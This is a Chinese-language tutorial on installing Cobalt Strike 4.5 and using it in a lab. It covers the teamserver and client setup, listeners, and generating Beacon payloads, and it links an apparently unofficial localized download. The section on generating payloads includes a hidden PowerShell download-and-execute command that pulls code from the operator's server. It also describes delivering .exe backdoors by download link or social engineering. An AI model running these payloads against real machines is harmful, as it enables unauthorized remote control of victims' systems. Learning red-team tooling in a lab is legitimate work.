# 1. Cobalt Strike简介与下载

## 1.1. Cobalt Strike介绍

Cobalt Strike是一款超级好用的渗透测试工具，拥有多种协议主机上线方式，集成了提权，凭据导出，端口转发，socket代理，office攻击，文件捆绑，钓鱼等多种功能。同时，Cobalt Strike还可以调用Mimikatz等其他知名工具，因此广受技术大佬的喜爱。

同时Cobalt Strike集成了端口转发、服务扫描，自动化溢出，多模式端口监听，win exe木马生成，win dll木马生成，java木马生成，office宏病毒生成，木马捆绑；钓鱼攻击包括：站点克隆，目标信息获取，java执行，浏览器自动攻击等等。

并且Cobalt Strike采用C/S架构的商业渗透软件，适合多人进行团队协作，可模拟APT做模拟对抗，进行内网渗透。

## 1.2. 下载Cobalt Strike

这里可以通过官网下载或者使用我给的网盘进行下载，并且进行了汉化，当然汉化不保证完全汉化。

网盘中提供的是4.5版本的，不过在4.7版本以下的版本中存在XSS漏洞(CVE-2022-39197)，可被蓝队反攻，使用还需要注意。至于4.7版本也有但是没汉化，所以就没有提供。

官网：<http://cobaltstrike.com/>

网盘：<https://pan.baidu.com/s/1FwHL1Lsc_Qlhy6U_40LEwQ?pwd=bnft> 提取码：bnft

# 2. Cobalt Strike安装

## 2.1. 安装Cobalt Strike

在安装Cobalt Strike的时候需要安装服务端以及客户端，并且服务端必须要安装在Linux系统下，而客户端就没那么多要求。

同时服务端和客户端都需要安装java运行环境，这里我使用kail来安装服务端，客户端安装在Windows操作系统上。

### 2.1.1. 安装Java运行环境

启动Cobalt Strike需要JDK的支持，所以需要安装Java环境。想必之前在使用Burp Suite都应该安装过了，当然版本java版本至少要高于java11。

当然在如果服务端安装在kail中就无需安装java，在kail2022.4中自带java17。

这里我就不进行运行环境的安装了，百度搜索一大堆，什么？没装过Burp Suite，那你学Cobalt Strike干嘛？

不过这里需要注意如果之前安装过Burp Suite低版本使用的是java版本比较低，如果再安装java高版本就会导致Burp Suite无法使用，这里经过测试，可以先卸载低版本的java，然后安装高版本的，测试成功后，再安装低版本的java就可以了。

### 2.1.2. 服务端

如果你不想将Cobalt Strike安在kail中，想安装在其它的Linux系统中，那么自行搜索如何在Linux系统中安装java，也挺简单的。

服务端与客户端公用一个包，不需要考虑包到底是服务端的还是客户端的，其实主要是我一开始在考虑的问题，为什么提供的都是一个安装包，到底是服务端还是客户端，后来才明白是共用一个包。

#### 2.1.2.1. 解压至kail

百度网盘中的压缩包解压发送到kail中。



#### 2.1.2.2. 给予权限

这里需要给予teamserver文件的权限，这里只需要给予teamserver文件执行权限即可。

命令：chmod +x teamserver



#### 2.1.2.3. 运行服务端

这里运行服务器，需要执行./teamserver IP地址 密码，需要注意的是这个IP地址需要是真实的IP地址，不能是0.0.0.0或者127.0.0.1这些。密码是团队服务器的密码。这里是采用的是虚拟机所以IP地址是192段的。正常情况下最好能够购买一台公网服务器来搭建。

命令：./teamserver 192.168.10.20 123456



### 2.1.3. 客户端

客户端这里只需要运行压缩包中的cobaltstrike.exe即可。



#### 2.1.3.1. 初始化配置

在弹出的窗口中需要填写主机地址以及密码，这些都是需要和刚刚服务端上设置的一样。至于端口，默认就是50050无需修改，而用户这里可以自己随便设置一个即可，然后就可以连接了。



#### 2.1.3.2. 指纹校验

这里我由于连接过，就没有弹出指纹校验，这里我从网上找了一张图片，这里会含有一个SHA256哈希值，主要是防篡改，每一次的创建Cobalt Strike服务端生成的指纹都是不同的。



#### 2.1.3.3. 成功运行

当出现这个界面的时候就证明成功运行了。



# 3. Cobalt Strike基础使用

## 3.1. 监听

这里的监听的作用就是当生成的payload上线后能够监听到。

### 3.1.1. 添加监听

中文这里我就不说了，用原版介绍吧，在菜单栏中的Cobalt Strike进入Listeners面板，然后点击下面的add，进行添加监听。





### 3.1.2. 设置监听

输人名称、监听器类型、团队服务器IP地址、监听的端口，然后单击“Save”按钮保存设置。



## 3.2. 生成payload

### 3.2.1. 生成http的payload

选择Attacks菜单，然后选择Web Drive-by再选择Scripted Web Delivery选项。



### 3.2.2. 设置监听

这里需要设置相应的监听，当设置完后就可以点击运行了。



### 3.2.3. 复制payload

在点击运行后会弹出一个窗口，这里需要将Cobalt Strike生成的Payload需要完整地复制下来，其中url它是个文件路径，就是让目标 （受害者）通过这个地址和端口下载 恶意脚本。

命令：powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.10.20:80/a'))"



### 3.2.4. 访问URL

这里使用受害者的主机访问这个URL，这里我使用虚拟机进行测试，其实访问后就是一段powershell代码。

URL：http://192.168.10.20/a



### 3.2.5. 执行payload

在目标主机上执行payload，这里我的理解是使用命令让其读取URL中代码进行后门植入。

执行的命令就是刚刚弹出提示的命令。



## 3.3. 上线

执行完就可以在页面中看到一台机器上线了。在页面中能够显示，外网IP、内网IP、监听器、用户名、机器名、是否有特权、Beacon进程的PID、心跳时间等信息。



### 3.3.1. 测试

这里可以对目标主机进行右击执行一些快捷操作，例如点击Interact，执行一些命令。注意执行命令的格式是shell 命令。



### 3.3.2. 命令测试

这里我就查询一下当前用户。这里需要注意的是Beacon的每次回连时间默认为60秒。回连后，执行命令的任务将被下发，并成功回显命令的执行结果，也就是说命令正常需要一段时间的显示，不会立即显示出来。

命令：shell whoami



## 3.4. 其它后门生成

当然这里也可以生成一些.exe文件，放入对方服务器中进行运行。这里我进行简单的演示。

### 3.4.1. 下载.exe文件

这里可以设置一个访问URL就会在目标主机上提示下载文件，下载后就会运行。

#### 3.4.1.1. 生成payload

还是点击刚刚那个位置，把类型调整为exe即可，监听器还是设置成刚刚那个监听器即可。



#### 3.4.1.2. 访问URL

这里我由于生成过了，产生的URL是http:192.168.10.20/a.exe。如果刚生成只是需要将弹出中的URL复制出来，让目标机访问下载即可。



#### 3.4.1.3. 上线

同样运行完就会在界面中显示有一台主机上线。



### 3.4.2. 生成.exe文件

这里的.exe文件，就需要将这个后门发送给目标机上进行执行，这就需要社工了。

#### 3.4.2.1. 生成文件

这里的生成路径就不一样了，看我指的对方，忘记英文了。



#### 3.4.2.2. 设置监听器

这里的监听器还是刚刚那个监听器。点击生成后会让你选择一个路径进行保存，这里我也生成过了，我就不在生成了。



#### 3.4.2.3. 运行exe文件

这里需要在目标机上运行文件，至于文件名称，好像是随机的，当然你也可以修改。



#### 3.4.2.4. 上线

同样这里运行完后，也会在界面中显示一台主机上线。



## 3.5. 总结

这里就是介绍一些简单的使用，后续将会出一篇更详细的使用教程。
